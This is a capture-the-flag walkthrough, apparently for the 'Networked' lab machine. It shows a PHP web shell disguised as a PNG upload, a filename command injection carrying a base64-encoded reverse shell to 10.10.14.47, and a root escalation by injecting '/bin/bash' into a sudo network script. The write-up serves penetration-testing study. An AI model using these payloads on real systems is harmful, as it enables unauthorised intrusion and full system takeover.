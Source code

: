 #### ++ INFO ++
-> We can see the files that we upload in `/upload.php` by inspecting the code in `/photos.php` 
-> We land as `apache` user, we find `/home/guly/check_attack.php`and abuse the script vulnerability
-> We notice guly can execute `/usr/local/sbin/changename.sh` as root and trying random inputs we found the redacted script vulnerability
#### ++ USERS ++
	apache
	guly
	root
	
#### ++ RCE uploading a malicious PNG image ++
	Upload a shell in /upload.php as png file with the following structure:
		"Content-Disposition: form-data; name="myFile"; filename="example.php.png"
		Content-Type: image/png

		PNG
		
		<?php system($_GET['cmd']); ?>"

#### ++ Script abuse by injecting code 1 ++
The script /home/guly/check_attack.php can be abused by injecting code in line:
	`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`
This can be done creating file with encoded shell:
	`touch "/var/www/html/uploads/a;echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQ3LzkwMDEgMD4mMQo='|base64 -d|bash;10.10.14.47.php"`
Get a shell as gully

#### ++ Script abuse by injecting code 2 ++
Trying random inputs we found that the second word we input is executing as a command
	
```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
a b c
interface PROXY_METHOD:
d e f
interface BROWSER_ONLY:
g h i
interface BOOTPROTO:
j k l
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: e: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: h: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: k: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: b: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: e: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: h: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 7: k: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
	
So we just input "a /bin/bash" a we get as root
	
```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
a /bin/bash
interface PROXY_METHOD:
a
interface BROWSER_ONLY:
a
interface BOOTPROTO:
a
[root@networked network-scripts]# whoami
root
```